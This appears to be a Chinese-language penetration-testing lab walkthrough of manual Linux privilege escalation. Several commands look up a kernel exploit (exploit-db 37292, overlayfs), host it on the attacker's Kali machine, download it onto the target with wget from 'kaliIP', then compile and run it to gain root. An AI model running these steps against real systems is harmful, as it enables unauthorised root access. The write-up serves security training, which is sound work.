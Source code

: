 ## 方法一：手动枚举提权
我们查询一下机子有没有内核漏洞
```
uname -a
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/852a573a9c454427997a3b1003fa544b.png)
在漏洞库里搜索一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/13ee4c9d27424f2f8ef31dad440b7097.png)
发现了一个本地提权的漏洞
我们将这个exp复制到当前目录
```
locate linux/local/37292.c
cp /usr/share/exploitdb/exploits/linux/local/37292.c ./
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/692344bb7260438b966f7f9b7a4113cd.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6bc5f6abaaf34e9eb1afd639e5b01d4c.png)
我们查看一下漏洞说明
```
searchsploit -x linux/local/37292.c
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/233d2819138b4a4680d32ffe61cf2450.png)
这里将此漏洞说的很详细，这是漏洞利用操作：
```
user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
```
这里可以看到，我们将此exp上传到机子上，使用gcc编译一下然后运行就能拿到root权限了
按q退出，开启apache服务
```
service apache2 start
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7af29842a2cf43fab0fe68e8c87e9f17.png)
将此exp移动到/var/www/html目录下
```
mv 37292.c /var/www/html
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c8c30a677c00411e909ee83bff20edb2.png)
回到靶机上，移动到tmp目录下，然后我们下载此exp
```
cd /tmp
wget http://kaliIP/37292.c
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/468944ce31764a8e94ecb736ab0ca686.png)
gcc编译一下这个c文件
```
gcc 37292.c -o exp      //-o：输出的文件名
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5726bae1e8444f08b9e724675700f348.png)
赋予exp执行的权限，然后运行编译后的文件
```
chmod +x exp
./exp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/45635866f7e040329374eab556a5738e.png)
我们成功的拿到了root权限
